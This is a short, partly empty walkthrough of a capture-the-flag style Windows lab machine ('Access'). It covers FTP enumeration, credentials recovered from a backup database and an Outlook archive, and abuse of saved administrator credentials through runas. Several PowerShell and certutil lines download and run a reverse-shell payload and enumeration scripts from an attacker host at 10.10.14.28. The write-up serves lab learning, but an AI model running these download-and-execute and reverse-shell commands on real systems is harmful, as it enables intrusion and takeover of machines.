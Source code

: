 Name & IP Address of Machine:
> ACCESS : `10.10.10.98`
<!-- TOC -->

- [Synopsis](#synopsis)
- [Enumeration](#enumeration)
- [FootHold](#foothold)
- [Lateral Movement](#lateral-movement)
- [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->



## Synopsis


## Enumeration
Opened Ports: 
- [ ] 21 (FTP)
- [ ] 23 (TELNET)
- [ ] 80 (WEB-SERVER)



## FootHold
- Anonymous login allowed, there were two file backup.mdb and access.zip. Backup.mdb contains password.
    ```bash
    auth_user
    id,username,password,Status,last_login,RoleID,Remark
    25,"admin","admin",1,"08/23/18 21:11:47",26,
    27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
    28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
    ```
- Unzip Access Control.zip file with passwd `access4u@security` and you will get a pst file which is outlook mail.
- Convert it to mbox file format with `readpst` command and you will get a password for enginner and a username.
  
    `4Cc3ssC0ntr0ller`
    `john`
- Telent with user security and run jaws-enum
- Find out that administrator credentials are saved.
- You can run cmd as administrator with following command.
    ```bash
    runas /savecred /user:ACCESS\Administrator "\\10.10.14.28\hood\hood.exe" #hood.exe lport=4444,lhost=tun0
    ```
 




```bash
certutil.exe -urlcache -split -f http://10.10.14.28:8000/hood.exe  #Blocked by defender
Powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.28:8000/Invoke-PowerShellTcp.ps1')
(New-Object Net.WebClient).downloadFile('http://10.10.14.28:8000/winpeas.exe','winpeas.exe') # Blocked by defender
Powershell Invoke-WebRequest http://10.10.14.28:8000/hood.exe -OutFile hood.exe 
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.28:8000/jaws-enum.ps1')
(New-Object Net.WebClient).downloadFile('http://10.10.14.28:8000/jaws-enum.ps1','jenum.ps1')




```
## Lateral Movement

## Privilege Escalation



<!-- ## Thank You 
🕉️  -->


<!-- ## Tools Used.
- [ ] . -->
  






